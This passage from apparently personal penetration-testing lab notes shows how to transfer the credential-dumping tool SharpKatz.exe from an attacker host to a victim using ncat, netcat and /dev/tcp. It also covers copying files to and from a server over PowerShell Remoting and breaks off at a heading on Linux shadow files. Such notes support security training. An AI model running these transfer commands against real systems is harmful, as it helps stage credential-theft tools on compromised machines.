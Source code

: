 ```bash
```
6. **Sending File as Input to Ncat**
```bash
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
```bash
victim$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
8. **Sending File from Attacker machine to Compromised using /dev/tcp**
```bash
# Netcat option
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
``` 
```bash
# Ncat option
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
```bash
# Connecting to netcat using /dev/tcp
victim$ 
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Session File Transfer
I know I used to show about PowerShell file transfers in Windows File Transfer section, but there are possibilities when no HTTP, HTTPS or SMB are available. So here we'll use `PowerShell Remoting` aka WinRM. Usually work on TCP/5985 port for HTTP and TCP/5986 port for HTTPS. 
1. **Check TCP 5985 Port on DATABASE01**
```powershell
PS C:\carnifex17> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
2. **Create a PowerShell Remoting Session to DATABASE01**
```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
3. **Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
4. **Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```


# Password Attacks
## Credential Storage
### Linux Shadow File
- **/etc/shadows structure**
